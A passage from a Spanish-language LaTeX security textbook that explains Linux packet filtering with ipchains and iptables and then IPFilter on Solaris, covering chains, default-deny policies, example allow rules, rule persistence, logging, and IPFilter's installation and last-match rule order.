{\it Firewall-1} son los encargados de cargar el c\'odigo en el n\'ucleo del
operativo, comenzando as\'{\i} a ser operativa la nueva pol\'{\i}tica.\\
\\La carga del c\'odigo en el cortafuegos se realiza de forma autom\'atica tras
generar y compilar el fichero {\tt `.pf'} desde el editor gr\'afico de 
pol\'{\i}ticas, aunque puede llevarse a cabo manualmente mediante \'ordenes como
{\tt `fw load'} o {\tt `fw fetch'}; este c\'odigo se ejecuta en una m\'aquina
virtual ubicada en el n\'ucleo del operativo, y su ejecuci\'on b\'asicamente
consiste en inspeccionar todas las tramas que pasan por el {\it firewall} para
decidir qu\'e hacer con ellas.\\
\\Evidentemente es imposible describir aqu\'{\i} de forma exhaustiva tanto la 
sintaxis como la funcionalidad de {\sc inspect}; para obtener m\'as 
informaci\'on acerca de este lenguaje podemos consultar la documentaci\'on que
acompa\~na a {\it Firewall-1}, en concreto el cap\'{\i}tulo 11 del {\it 
`Architecture and Administration User Guide'}, que presenta una excelente 
introducci\'on a {\sc inspect}.
\section{\tt ipfwadm/ipchains/iptables}
\subsection{Introducci\'on}
Desde la series 1.1, el {\it kernel} de Linux posee en mayor o menor medida 
capacidad para filtrar tramas. Originalmente (1994), {\tt ipfwadm} era la 
herramienta proporcionada con Linux para la implementaci\'on de pol\'{\i}ticas 
de filtrado de paquetes en este clon de Unix; derivaba del c\'odigo de filtrado 
en BSD ({\tt ipfw}), y debido a sus limitaciones (por ejemplo, s\'olo puede 
manejar los protocolos TCP, UDP o ICMP) {\tt ipfwadm} fue reescrito para 
convertirse en {\tt ipchains} a partir del n\'ucleo 2.1.102 (en 1998). Esta
nueva herramienta (realmente, todo el subsistema de filtrado de los n\'ucleos
2.2) introdujo bastantes mejoras con respecto a la anterior, pero segu\'{\i}a
careciendo de algo fundamental: el {\it stateful}; era dif\'{\i}cil ver a un
sistema tan potente como Linux sin una herramienta de {\it firewalling} decente,
libre, y `de serie' con el sistema, mientras otros clones de Unix, tambi\'en 
gratuitos hac\'{\i}a tiempo que la incorporaban, como es el caso de FreeBSD e 
{\it IPFilter}.\\
\\De esta forma, no es de extra\~nar que a partir del n\'ucleo 2.3.15 (por 
tanto, en todos los {\it kernels} estables, de la serie 2.4, desde mediados de 
1999) {\tt ipchains} fuera sustituido por {\tt iptables}, que de nuevo 
introduc\'{\i}a importantes mejoras con respecto a su predecesor. Sin duda la
m\'as importante era que ya incorporaba el {\it stateful} no presente en {\tt
ipchains}, pero no era la \'unica; adem\'as, {\tt iptables} ofrec\'{\i}a -- y
de hecho, ofrece -- un sistema de {\sc nat} ({\it Network Address Translation}) 
mucho m\'as avanzado, incorpora mejoras en el filtrado (llegando incluso a
filtrar en base a la direcci\'on f\'{\i}sica de las tramas) e inspecci\'on de
paquetes, y presenta un subsistema de {\it log} mucho m\'as depurado que {\tt
ipchains}. Por tanto,{\tt iptables} es en la actualidad el {\it software} de 
{\it firewalling} en Linux IPv4; aunque todas las versiones de Linux lo 
incorporan por defecto, se puede descargar una versi\'on actualizada desde {\tt 
http://netfilter.samba.org/}.\\
\\Hist\'oricamente, todos los sistemas de {\it firewalling} nativos de Linux 
han sido orientados a comando: esto significa, muy por encima, que no leen su
configuraci\'on de un determinado fichero, por ejemplo durante el arranque de
la m\'aquina, sino que ese archivo de arranque ha de ser un {\it script} donde,
l\'{\i}nea a l\'{\i}nea, se definan los comandos a ejecutar para implantar la
pol\'{\i}tica de seguridad deseada; esta es una importante diferencia con 
respecto a otros cortafuegos, como {\it IPFilter} (del que hablaremos a 
continuaci\'on), orientados a archivo: en estos la pol\'{\i}tica se define en 
un simple fichero ASCII con una cierta sintaxis, que el {\it software} 
interpreta y carga en el sistema.\\
\\La sintaxis de {\tt iptables} (o la de {\tt ipchains}, bastante similar) puede
llegar a resultar muy compleja si se invoca al sistema de filtrado desde 
l\'{\i}nea de \'ordenes; por fortuna (o no por fortuna), existen diferentes
interfaces para el administrador, algunos tan c\'omodos e intuitivos como el de 
{\it Firewall-1}, capaces de presentar las pol\'{\i}ticas de una forma 
gr\'afica basada en objetos y de transformar despu\'es
esas pol\'{\i}ticas en {\it scripts} con las \'ordenes de {\tt iptables} o {\tt
ipchains} equivalentes. Un ejemplo de estos interfaces es {\tt fwbuilder},
disponible libremente desde {\tt http://www.fwbuilder.org/}.\\
\\Para conocer mejor todo el subsistema de filtrado en Linux, as\'{\i} como sus
herramientas de gesti\'on, consultas imprescindibles son los {\it HowTo} 
\cite{kn:rus00}, \cite{kn:rus02} y \cite{kn:gren00}; la mayor parte de esta 
secci\'on est\'a basada en estas obras. Otros documentos que pueden resultar
especialmente interesantes son \cite{kn:mou00} y \cite{kn:zie01}.\\
\\{\tt iptables} o {\tt ipchains} son herramientas flexibles, potentes e, igual 
de importante, gratuitas, que funcionan sobre un sistema operativo tambi\'en 
gratuito; quiz\'as para una organizaci\'on de I+D o para una empresa no muy 
grande sea dif\'{\i}cil permitirse soluciones comerciales cuyo precio puede 
ascender a varios millones de pesetas, especialmente si se van a instalar 
cortafuegos internos o arquitecturas DMZ de varios niveles. Sin embargo, no hay 
excusa para no utilizar este {\it software} de filtrado: un peque\~no PC 
corriendo Linux es m\'as que suficiente para, en muchas ocasiones, garantizar 
-- o al menos incrementar -- la seguridad de un laboratorio, un aula 
inform\'atica o un conjunto de despachos.
\subsection{Arquitectura}
En Linux el filtrado de paquetes est\'a construido en el {\it kernel} (se
habla con m\'as detalle del n\'ucleo de este sistema operativo en la secci\'on
\ref{linkernel}); en la serie 2.2, para poder utilizar {\tt ipchains} hemos de 
compilar el n\'ucleo con las opciones {\sc config$\_$firewall} y {\sc 
config$\_$ip$\_$firewall} activadas, mientras que en las 2.4, para {\tt 
iptables}, hemos de activar {\sc config$\_$netfilter}: es toda la 
`instalaci\'on' (aparte de las herramientas de gesti\'on de espacio de usuario,
que vienen de serie con Linux) que nuestro {\it firewall} va a necesitar, de
ah\'{\i} que en este caso no dediquemos una subsecci\'on espec\'{\i}fica a la 
instalaci\'on del cortafuegos.\\
\\Cuando ya estamos ejecutando un n\'ucleo con el {\it firewalling} activado 
utilizaremos las herramientas de espacio de usuario {\tt ipchains} e {\tt 
iptables} para insertar y eliminar reglas de filtrado en \'el;
al tratarse de informaci\'on din\'amica, cada vez que el sistema se reinicie
las reglas establecidas se perder\'an, por lo que es recomendable crear un
{\it script} que se ejecute al arrancar el sistema y que las vuelva a definir.
Para ello nos pueden resultar \'utiles un par de {\it shellscripts} que 
acompa\~nan a las herramientas de espacio de usuario: se trata de {\tt 
ipchains-save} e {\tt ipchains-restore} (n\'ucleos 2.2) y de {\tt iptables-save}
e {\tt iptables-restore} (n\'ucleos 2.4); en ambos casos, la primera orden
vuelca en pantalla las reglas definidas en el n\'ucleo y la segunda carga 
dichas reglas desde un archivo.\\
\\El n\'ucleo de Linux agrupa las diferentes reglas definidas por el 
administrador en tres listas denominadas {\it chains}: {\tt input}, {\tt 
output} y {\tt forward} (en may\'usculas para los {\it kernels} 2.4); en 
funci\'on de las caracter\'{\i}sticas de una trama, Linux aplica las reglas 
definidas en cada una de estas listas para decidir qu\'e hacer con el paquete. 
En primer lugar, al recibir una trama utiliza las reglas de la {\it chain}
{\tt input} (su nombre es autoexplicativo) para decidir si la acepta o no; si
las reglas definidas en esta lista indican que se ha de aceptar el paquete, se
comprueba a d\'onde ha de enrutarlo, y en el caso de que el destino sea una 
m\'aquina diferente al cortafuegos se aplican las reglas de la lista {\tt 
forward} para reenviarlo a su destino. Finalmente, la lista {\tt output} se 
utiliza obviamente antes de enviar un paquete por un interfaz de red, para
decidir si el tr\'afico de salida se permite o se deniega.\\ 
\\Como hemos dicho, los elementos de cada lista se denominan reglas y definen 
-- junto a los {\it targets}, de los que hablaremos a continuaci\'on -- qu\'e 
hacer con los paquetes que cumplen ciertas caracter\'{\i}sticas; si un paquete 
no cumple ninguna de las reglas de la lista que le corresponde, lo mejor si 
queremos un sistema seguro es rechazarlo o denegarlo, para lo cual podemos
definir un tratamiento por defecto. Mediante {\tt ipchains} e {\tt iptables} 
podemos crear listas, modificarlas y eliminarlas\footnote{A excepci\'on de las 
tres listas predefinidas, que no se pueden borrar.} y, lo realmente importante, 
definir las reglas para cada lista; para estudiar las opciones de ambas 
\'ordenes se pueden consultar las p\'aginas {\tt ipchains(8)}, {\tt ipfw(4)}, 
{\tt ipchains-restore(8)}, {\tt ipchains-save(8)} e {\tt iptables(8)}.\\
\\Cuando un paquete cumple cumple una determinada regla de una {\it chain} 
definimos qu\'e hacer con \'el mediante lo que se denomina 
`objetivo' o {\it target} (quiz\'as una traducci\'on menos literal pero m\'as
clarificadora ser\'{\i}a `acci\'on'). Aunque existen m\'as {\it targets}, son
tres los que m\'as se suelen utilizar: {\sc accept} permite el paso de un 
paquete, {\sc deny} lo bloquea, y {\sc reject} tambi\'en lo bloquea pero a 
diferencia del anterior env\'{\i}a al origen una notificaci\'on mediante un
mensaje {\sc icmp} de tipo {\sc dest$\_$unreach} (siempre que el paquete 
bloqueado no sea tambi\'en de tipo {\sc icmp}). Realmente, aunque {\sc reject}
y {\sc deny} nos parezcan igual de seguros -- y de hecho en la mayor\'{\i}a de
situaciones lo sean -- siempre es m\'as recomendable utilizar {\sc deny}, ya
que mediante mensajes {\sc icmp} un posible atacante podr\'{\i}a conseguir
informaci\'on sobre nuestro entorno que en ciertos casos puede comprometer 
nuestra seguridad, tal y como hemos comentado cuando habl\'abamos de {\it
Firewall-1}.
\subsection{Gesti\'on}
Vamos a ver un ejemplo de definici\'on de una pol\'{\i}tica de seguridad 
b\'asica utilizando tanto {\tt iptables} como {\tt ipchains}; por cuestiones
de simplicidad nos centraremos exclusivamente en el filtrado de paquetes, no en
otros aspectos como la redirecci\'on de puertos o el {\sc nat}.\\
\\Lo primero que posiblemente nos interese antes de comenzar a definir reglas
de filtrado sea `vaciar' las {\it chains}, es decir, eliminar todas las reglas
asociadas a cada lista, de forma que no interfieran con las que vamos a
comenzar a definir; para ello podemos utilizar la opci\'on {\tt `-F'} tanto
de {\tt iptables} como de {\tt ipchains} (recordemos que en el primer caso, los
nombres de las {\it chains} son los mismos, pero en may\'usculas). Adem\'as, 
podemos definir una pol\'{\i}tica por defecto mediante la opci\'on {\tt `-P'} de
ambas herramientas; esta pol\'{\i}tica ser\'a la que se aplicar\'a cuando un
paquete no sea contemplado por ninguna de las reglas de una determinada {\it
chain}:
\begin{quote}
\begin{verbatim}
luisa:~# /sbin/ipchains -P input DENY
luisa:~# /sbin/ipchains -F input
luisa:~# /sbin/ipchains -P output ACCEPT
luisa:~# /sbin/ipchains -F output
luisa:~# /sbin/ipchains -P forward DENY
luisa:~# /sbin/ipchains -F forward
luisa:~# 
\end{verbatim}
\end{quote}
Como vemos, lo que vamos a hacer por defecto es denegar todo el tr\'afico que
se dirija al cortafuegos, tanto si va dirigido a \'el como si se ha de reenviar
a otro sistema, y permitir todo el tr\'afico de salida. Como vemos, estas
pol\'{\i}ticas por defecto se pueden definir antes de `limpiar' cada {\it 
chain}, ya que la limpieza s\'olo afecta a las reglas en s\'{\i} (y esta 
acci\'on por defecto no se considera una regla).\\
\\Una vez aplicadas las primeras acciones, nos interesar\'a sobre todo, ya que
la salida la permitimos por completo (y de las redirecciones de tr\'afico ya
hemos dicho que no vamos a entrar en detalle), definir accesos permitidos a 
nuestro sistema; por ejemplo, es posible que necesitemos un acceso total al
puerto 80 para que todo el mundo pueda maravillarse de esas p\'aginas {\it web}
que hemos hecho con {\tt vi}. Si es ese el caso, podemos permitir dicho acceso
mediante una regla similar a la siguiente:
\begin{quote}
\begin{verbatim}
luisa:~# /sbin/ipchains -A input -p tcp -j ACCEPT -d 158.42.22.41 80
luisa:~# 
\end{verbatim}
\end{quote}
Estamos indicando que se a\~nada ({\tt `-A'}) en la {\it chain} {\tt `input'} 
(tramas de entrada)
una regla que permita ({\tt `ACCEPT'}) el tr\'afico {\sc tcp} ({\tt `-p'}) cuyo
destino ({\tt `-d'}) sea el puerto 80 de la direcci\'on 158.42.22.41 -- en
principio, la {\sc ip} de nuestro servidor {\it web} --. Con {\tt iptables}, la
sintaxis cambia ligeramente:
\begin{quote}
\begin{verbatim}
luisa:~# /sbin/iptables -A INPUT -p TCP -j ACCEPT -d 158.42.22.41 --dport 80
luisa:~#
\end{verbatim}
\end{quote}
Una vez definidas estas reglas, mediante la opci\'on {\tt `-L'} de {\tt 
ipchains} e {\tt iptables} podemos comprobar que efectivamente se est\'an 
aplicando (utilizamos tambi\'en {\tt `-n'} para que no se haga resoluci\'on
{\sc dns}):
\begin{quote}
\begin{verbatim}
luisa:~# /sbin/ipchains -L -n
Chain input (policy DENY):
target     prot opt     source                destination           ports
ACCEPT     tcp  ------  0.0.0.0/0            158.42.22.41          * ->   80
Chain forward (policy DENY):
Chain output (policy ACCEPT):
luisa:~# 
\end{verbatim}
\end{quote}
Ahora pensemos que quiz\'as tambi\'en queremos acceder a nuestro servidor de
forma remota, utilizando {\sc ssh}, pero en este caso no desde cualquier lugar
de Internet sino desde una direcci\'on concreta; la regla a a\~nadir a la {\it
chain} {\tt `input'} en este caso ser\'{\i}a la siguiente:
\begin{quote}
\begin{verbatim}
luisa:~# /sbin/ipchains -A input -p tcp -j ACCEPT -s 158.42.2.1 -d \
> 158.42.22.41 22
luisa:~#
\end{verbatim}
\end{quote}
Podemos ver que ahora especificamos la direcci\'on origen ({\tt `-s'}) desde
la que vamos a permitir el tr\'afico (en este ejemplo, {\tt 158.42.2.1}). Si
utiliz\'aramos {\tt iptables} la sintaxis ser\'{\i}a la siguiente:
\begin{quote}
\begin{verbatim}
luisa:~# /sbin/iptables -A INPUT -p TCP -j ACCEPT -s 158.42.2.1 -d \
> 158.42.22.41 --dport 22
luisa:~#
\end{verbatim}
\end{quote}
Tal y como hemos definido hasta ahora nuestra pol\'{\i}tica de seguridad, s\'olo
estamos permitiendo conexiones al puerto 80 desde cualquier m\'aquina y al
puerto 22 desde la especificada; el resto del tr\'afico de entrada est\'a siendo
denegado gracias a la pol\'{\i}tica por defecto que hemos establecido para la
{\it chain} input ({\sc deny}). As\'{\i}, tr\'afico como los mensajes {\sc 
icmp} de vuelta, o las llamadas al servicio {\tt ident} que realizan ciertos
servidores cuando se les solicita una conexi\'on no alcanzar\'an su destino, lo
cual puede repercutir en la funcionalidad de nuestro entorno: simplemente hemos
de pensar en una comprobaci\'on rutinaria de conectividad v\'{\i}a {\tt ping} o
en el acceso a un servidor {\sc ftp} externo que sea denegado si no se consigue 
la identidad del usuario remoto. Para evitar estos problemas, podemos permitir
el tr\'afico de ciertos paquetes {\sc icmp} y el acceso al servicio {\tt
auth} (puerto 113):
\begin{quote}
\begin{verbatim}
luisa:~# /sbin/ipchains -A input -p icmp --icmp-type \ 
> destination-unreachable -j ACCEPT
luisa:~# /sbin/ipchains -A input -p icmp --icmp-type source-quench -j ACCEPT
luisa:~# /sbin/ipchains -A input -p icmp --icmp-type time-exceeded -j ACCEPT
luisa:~# /sbin/ipchains -A input -p icmp --icmp-type parameter-problem \
> -j ACCEPT
luisa:~# /sbin/ipchains -A input -p icmp --icmp-type echo-reply -j ACCEPT
luisa:~# /sbin/ipchains -A input -p tcp -j ACCEPT -d 158.42.22.41 113
luisa:~# 
\end{verbatim}
\end{quote}
Como vemos, hemos ido definiendo las reglas que conforman nuestra pol\'{\i}tica
desde l\'{\i}nea de comando; ya hemos comentado que toda esta configuraci\'on
se pierde al detener el sistema, por lo que es necesario crear un {\it script}
que las vuelva a generar y planificarlo para que se ejecute en el arranque de
la m\'aquina. Para ello no tenemos que escribir l\'{\i}nea a l\'{\i}nea la
configuraci\'on vista en este punto (mejor, la configuraci\'on adecuada a
nuestro entorno), o utilizar {\tt ipchains-restore} o {\tt iptables-restore}
para leer esa configuraci\'on de un fichero; si elegimos esta opci\'on, antes
de detener al sistema hemos de ejecutar {\tt ipchains-save} o {\tt 
iptables-save} para guardar dicha pol\'{\i}tica en el fichero que posteriormente
leeremos. De esta forma, en la parada de la m\'aquina hemos de ejecutar una
orden similar a:
\begin{quote}
\begin{verbatim}
luisa:~# /sbin/ipchains-save >/etc/rc.d/policy
Saving `input'.
luisa:~# 
\end{verbatim}
\end{quote}
Mientras que en el arranque, en nuestro {\it script} cargaremos la pol\'{\i}tica
guardada al detener la m\'aquina con una orden como:
\begin{quote}
\begin{verbatim}
luisa:~# /sbin/ipchains-restore </etc/rc.d/policy
luisa:~#
\end{verbatim}
\end{quote}
\subsection{El sistema de {\it log}}
Evidentemente, tanto {\tt ipchains} como {\tt iptables} est\'an preparados para
generar {\it logs} en el sistema: ambos permiten registrar mediante {\tt 
syslogd} los paquetes que
cumplan cierta regla -- por norma general, todos --. Un registro exhaustivo de
las acciones que se toman en el n\'ucleo con respecto al filtrado de paquetes
no es conveniente: la gran cantidad de informaci\'on guardada hace imposible 
detectar actividades sospechosas, y adem\'as no es dif\'{\i}cil que se produzcan
ataques de negaci\'on de servicio, ya sea por disco ocupado o por tiempo 
consumido en generar y guardar registros. Por tanto, lo habitual es almacenar
s\'olamente los paquetes que no sean rutinarios (por ejemplo, intentos de
conexi\'on desde direcciones no autorizadas, ciertos paquetes {\sc icmp} no
habituales\ldots).\\
\\En el caso de {\tt ipchains} el n\'ucleo de Linux, a trav\'es de {\tt klogd} 
y de {\tt syslogd}, registra estos eventos con prioridad {\tt `info'}, y al 
provenir del {\it kernel} (no olvidemos que el subsitema de filtrado forma 
parte del n\'ucleo del operativo), su tipo es obviamente {\tt `kernel'}. Para 
que cuando un paquete haga {\it match} con una regla se genere un registro hemos
de utilizar la opci\'on {\tt `-l'}; por ejemplo, si deseamos que cada vez que
alguien intente hacer un {\tt finger} contra la m\'aquina el tr\'afico, aparte
de ser denegado, registre un {\it log}, ejecutaremos una orden como la
siguiente:
\begin{quote}
\begin{verbatim}
luisa:~# /sbin/ipchains -A input -p tcp -j DENY -l -s 0.0.0.0/0 \
> -d 158.42.22.41 79
luisa:~# 
\end{verbatim}
\end{quote}
As\'{\i}, si estos registros se almacenan en el fichero {\tt /var/adm/fwdata}, 
sus entradas ser\'an de la siguiente forma:
\begin{quote}
\begin{verbatim}
rosita:~# tail -1 /var/adm/fwdata
Apr  3 02:03:13 rosita kernel: Packet log: input DENY eth0 PROTO=6 \
 158.42.2.1:1032 158.42.22.41:79 L=34 S=0x00 I=18 F=0x0000 T=254
rosita:~# 
\end{verbatim}
\end{quote}
El anterior mensaje nos dice principalmente que un paquete con protocolo 6
(corresponde a {\sc tcp} en nuestro archivo {\tt /etc/protocols}) proveniente
de la direcci\'on 158.42.2.1 y destinado a nuestro servicio {\tt finger} ha 
sido denegado; el resto de la informaci\'on no la veremos aqu\'{\i} (se puede
consultar la documentaci\'on del producto para ver el significado concreto de
todos y cada uno de los campos registrados).\\
\\En el caso de {\tt iptables} el registro de eventos generado por el 
subsistema de filtrado es algo diferente al de {\tt ipchains}, tanto al hablar 
de su funcionamiento como de su sintaxis. Ahora el {\it log} se realiza a 
trav\'es de un {\it target} independiente ({\sc log}) que registra las tramas
que hacen {\it match} con una regla determinada, y la prioridad de registro ya 
no es {\tt `info'} sino que se puede indicar en la propia l\'{\i}nea de 
\'ordenes (por defecto es {\tt `warning'}). Adem\'as, se ha definido una nueva
extensi\'on denominada {\tt `limit'} que permite restringir el n\'umero de
registros que una regla puede generar por unidad de tiempo, lo cual es 
evidentemente \'util para evitar que alguien ataque con \'exito nuestros 
recursos mediante un {\it flood} del {\it log} en el subsistema de filtrado.\\
\\Volvamos de nuevo al ejemplo anterior, en el que registr\'abamos los intentos
de acceso a nuestro puerto 79 ({\tt finger}) para tener constancia de cu\'ando
alguien trataba de obtener informaci\'on de los usuarios de nuestro sistema; en
el caso de {\tt iptables} deber\'{\i}amos definir una regla como la
siguiente:
\begin{quote}
\begin{verbatim}
luisa:~# /sbin/iptables -A INPUT -p TCP -m limit -j LOG --log-prefix \
> "FINGER ATTEMPT:" -d 158.42.22.41 --dport 79
luisa:~# 
\end{verbatim}
\end{quote}
Lo que indicamos mediante esta orden es que genere un mensaje cada vez que
alguien env\'{\i}e tr\'afico al puerto 79 de la direcci\'on 158.42.22.41 (esto
es, cada vez que alguien haga {\tt finger} contra la m\'aquina). Podemos
observar que ahora definimos el {\it target} {\sc log} (opci\'on {\tt `-j'}), y
que adem\'as aplicamos la extensi\'on {\tt `limit'} (par\'ametro {\tt `-m'})
para limitar el registro y evitar as\'{\i} ciertas negaciones de servicio; cada
vez que esta regla genere un {\it log} a\~nadir\'a al principio del mismo la
cadena {\tt `FINGER ATTEMPT:'}, lo que nos permite identificar de una forma 
m\'as clara el mensaje. Podemos fijarnos en que a trav\'es de esta regla no 
estamos ni aceptando ni negando el tr\'afico, sino s\'olo registrando su 
existencia: para detener la trama, hemos de indicarlo expl\'{\i}citamente o
bien a trav\'es de la acci\'on por defecto que hayamos especificado para la {\it
chain} {\sc input} (mediante la opci\'on {\tt `-P'}).
\section{\it IPFilter}
\subsection{Introducci\'on}
{\it IP Filter} ({\tt http://coombs.anu.edu.au/\~{}avalon/ip-filter.html}) es 
un cortafuegos disponible para muchos clones de Unix (Solaris, IRIX, FreeBSD, 
NetBSD, HP-UX\ldots); su precio (se trata de un {\it software} gratuito) y sus
excelentes caracter\'{\i}sticas t\'ecnicas lo
han convertido en una soluci\'on muy interesante para entornos medios donde 
otros cortafuegos como {\it Firewall--1} no resultan apropiados por diferentes 
razones: incluso en Solaris puede ser (>es?) en muchos casos una alternativa 
m\'as interesante que SunScreen Lite, de la propia Sun Microsystems.\\
\\Este cortafuegos permite filtrar el tr\'afico en funci\'on de diferentes
campos de la cabecera IP de una trama, como las clases de seguridad, las 
direcciones origen y destino y el protocolo (obvio) o diferentes {\it bits} de
estado. Adem\'as es posible utilizarlo como redirector de tr\'afico para 
configurar {\it proxies} transparentes, efectuar NAT e {\it IP Accounting}, y 
ofrece tambi\'en mecanismos de comunicaci\'on con el espacio de usuario; por si
todo esto fuera poco, {\it IP Filter} es {\it stateful} y soporta adem\'as 
IPv6.\\
\\No obstante, no todo es positivo; el argumento m\'as utilizado por los 
detractores de {\it IP Filter} no es t\'ecnico sino jur\'{\i}dico, pero en 
cualquier caso vale la pena comentarlo: se trata del tipo de licencia, o de la
interpretaci\'on de la misma, que hace el autor del {\it software} (el 
australiano Darren Reed), y que aunque distribuye el c\'odigo fuente de forma
gratuita, no permite efectuar modificaciones sobre el mismo. Aunque parezca una
tonter\'{\i}a, esta postura choca frontalmente con la filosof\'{\i}a de 
diferentes sistemas Unix para los que el producto est\'a disponible, lo que
ha generado problemas de distribuci\'on y utilizaci\'on del mismo; el ejemplo
m\'as extremo es el de OpenBSD, que por indicaci\'on expresa del mism\'{\i}simo 
Theo de Raadt elimin\'o {\it IP Filter} de sus distribuciones en Mayo de 2001 y 
comenz\'o desde entonces el desarrollo de {\tt pf}, similar al anterior pero 
liberado bajo otro tipo de licencia.
\subsection{Instalaci\'on}
{\it IP Filter} no se distribuye oficialmente en formato binario (en forma de
paquete), por lo que el c\'odigo ha de ser compilado antes de ser utilizado;
de cualquier forma, su instalaci\'on en un sistema Unix suele ser muy sencilla:
por ejemplo, en el caso de Solaris, la \'unica precauci\'on a tener en cuenta es
que {\sc gnu cc} ({\tt gcc}) no puede compilar {\it IP Filter} en modo 64 {\it
bits}, por lo que ser\'a necesario utilizar el compilador de Sun Microsystems o,
en su defecto, {\sc egcs}. En cualquier caso, los pasos a seguir una vez 
descargado el
archivo {\tt .tar.gz}\footnote{Es recomendable utilizar la versi\'on 3.4.17 del
producto o superior, ya que versiones anteriores presentan un grave problema de
seguridad que hoy mismo (6 de abril de 2001) ha sido anunciado en {\sc 
bugtraq}.} son los siguientes:
\begin{quote}
\begin{verbatim}
anita:/var/tmp# gzip -dc ip-fil3.4.17.tar.gz |tar xf -
anita:/var/tmp# cd ip_fil3.4.17
anita:/var/tmp/ip_fil3.4.17# /usr/xpg4/bin/make solaris
anita:/var/tmp/ip_fil3.4.17# cd SunOS5
anita:/var/tmp/ip_fil3.4.17/SunOS5# /usr/xpg4/bin/make package
\end{verbatim}
\end{quote}
La \'ultima de estas \'ordenes crear\'a y a\~nadir\'a autom\'aticamente un 
paquete con el cortafuegos en nuestro sistema. Podemos comprobar que est\'a
correctamente instalado con la orden {\tt pkginfo}:
\begin{quote}
\begin{verbatim}
anita:/var/tmp# pkginfo -l ipf
   PKGINST:  ipf
      NAME:  IP Filter
  CATEGORY:  system
      ARCH:  i386
   VERSION:  3.4.17
    VENDOR:  Darren Reed
      DESC:  This package contains tools for building a firewall
  INSTDATE:  Apr 06 2001 19:10
     EMAIL:  darrenr@pobox.com
    STATUS:  completely installed
     FILES:     80 installed pathnames
                12 shared pathnames
                 1 linked files
                24 directories
                11 executables
             21441 blocks used (approx)

anita:/var/tmp# 
\end{verbatim}
\end{quote}
Tras instalar el paquete, definiremos las reglas de filtrado y NAT en
los archivos correspondientes (tal y como veremos a continuaci\'on), y una
vez hecho esto ya podremos inicializar nuestro {\it firewall} con la orden 
{\tt /etc/init.d/ipfboot start}, que podemos incluir en el arranque de nuestra
m\'aquina de la forma habitual.\\
\\Si le pegamos un vistazo a este {\it shellscript} de inicializaci\'on del 
cortafuegos, generado al instalar el paquete {\tt ipf} (en Solaris, {\tt 
/etc/init.d/ipfboot}) podemos observar que en sus primeras l\'{\i}neas se 
definen los ficheros en los que se guardar\'an las reglas a instalar, tanto 
para filtrado como para traducci\'on de direcciones. Se trata de simples 
archivos ASCII ubicados por defecto en el directorio {\tt /etc/opt/ipf/} que 
podemos modificar con 
nuestro editor preferido, aunque tambi\'en podemos utilizar c\'omodos interfaces
gr\'aficos como {\tt fwbuilder} (que ya hemos comentado al hablar de {\tt 
iptables} e {\tt ipchains}), capaces de generar reglas tambi\'en para {\it IP 
Filter}.
\subsection{Gesti\'on}
Como ya hemos comentado, una de las grandes diferencias de {\it IP Filter} con
respecto a otros sistemas cortafuegos es que este toma su configuraci\'on -- su 
pol\'{\i}tica -- de simples ficheros ASCII; realmente esto es una diferencia 
importante con respecto a
otros sistemas cortafuegos, como {\tt iptables}, que no est\'an orientados a
archivo: un {\it script} de arranque de {\it IP Filter} instala pol\'{\i}ticas
le\'{\i}das del fichero correspondiente, que posee una cierta sintaxis,
mientras que uno de {\tt iptables} ejecuta l\'{\i}nea a l\'{\i}nea \'ordenes
que conforman la pol\'{\i}tica a implantar.\\
\\El hecho de que {\it IP Filter} est\'e orientado a archivo es principalmente
una cuesti\'on de dise\~no, pero no tanto de gesti\'on; la segunda -- pero 
quiz\'as la m\'as importante -- diferencia de {\it IP Filter} con respecto a 
casi todo el resto de {\it firewalls} del mercado s\'{\i} que es puramente 
relativa a su gesti\'on, y la encontramos a la hora de implantar en el 
cortafuegos la pol\'{\i}tica de seguridad definida en nuestro entorno de 
trabajo: se trata del orden de procesamiento de las reglas de {\it IP Filter}, 
completamente diferente a {\it Firewall-1}, {\tt ipchains} o {\tt iptables}. En 
todos estos {\it firewalls} se analizan en orden las reglas instaladas hasta 
que una coincide con el tipo de tr\'afico sobre el que actuar (como se dice 
habitualmente, hasta que hace {\it match}); en ese momento ya no se analizan 
m\'as reglas, sino 
que se aplica la acci\'on determinada por la regla coincidente. {\it IP Filter}
no sigue este esquema; por contra, se suelen (digo `se suelen' porque se puede
forzar un comportamiento diferente) procesar todas las reglas definidas en
nuestra configuraci\'on, desde la primera a la \'ultima, y se aplica la 
\'ultima coincidente con el tipo de tr\'afico sobre el que se va a actuar. Como
esta forma de trabajar puede resultar al principio algo confusa (especialmente
para la gente que ha trabajado con otros cortafuegos), veamos un ejemplo que
aclare un poco nuestras ideas; imaginemos un conjunto de reglas como el 
siguiente (utilizando una nomenclatura gen\'erica):
\begin{quote}
\begin{verbatim}
  Origen           Destino           Tipo        Puerto        Accion
----------------------------------------------------------------------
    *                 *               *             *           Allow
    *                 *               *             *           Deny
\end{verbatim}
\end{quote}
Si un administrador de {\it Firewall--1} ve esta pol\'{\i}tica implantada en
su cortafuegos seguramente se llevar\'a las manos a la cabeza, ya que este
{\it firewall} interpretar\'a \'unicamente la primera regla: como cualquier
tr\'afico coincide con ella, es la \'unica que se aplicar\'a; de esta forma, 
la pol\'{\i}tica anterior dejar\'{\i}a pasar todo el tr\'afico hacia y desde
nuestra red (algo que evidentemente no es ni recomendable ni pr\'actico, porque
es exactamente lo mismo que no tener ning\'un {\it firewall}).\\
\\En cambio, {\it IP Filter} no sigue este mecanismo; el {\it software} 
procesar\'a ambas reglas, y aplicar\'a la \'ultima que coincida con el tipo de
tr\'afico sobre el que se quiere actuar; como la segunda y \'ultima regla 
coincidir\'a con todo el tr\'afico que circule por el cortafuegos, ser\'a la que
se aplicar\'a siempre: en definitiva, {\bf todo} ser\'a parado por el {\it
firewall} (aunque esto ser\'{\i}a evidentemente muy beneficioso para nuestra
seguridad, en la pr\'actica es impensable: equivale a desconectar a cada 
sistema, o al menos a cada segmento, del resto de la red).\\
\\Teniendo en cuenta esta peculiaridad del {\it software}, ya podemos comenzar
a definir nuestra pol\'{\i}tica de filtrado en el fichero correspondiente; como
siempre, por seguridad vamos a denegar todo el tr\'afico que no est\'e 
expl\'{\i}citamente autorizado, por lo que la primera regla del archivo ser\'a
justamente la que niegue todo, y a continuaci\'on se definir\'an m\'as entradas 
contemplando el tr\'afico que deseamos permitir:
\begin{quote}
\begin{verbatim}
anita:/# head -4 /etc/opt/ipf/ipf.conf 
#####
# Bloqueamos todo lo que no se permita explicitamente
#####
block in all
anita:/# 
\end{verbatim}
\end{quote}
Esta regla viene a decir que se bloquee ({\tt `block'}) todo el tr\'afico 
({\tt `all'}) de entrada ({\tt `in'}) al sistema;
como podemos ver, una de las ventajas de este cortafuegos, orientado a archivo,
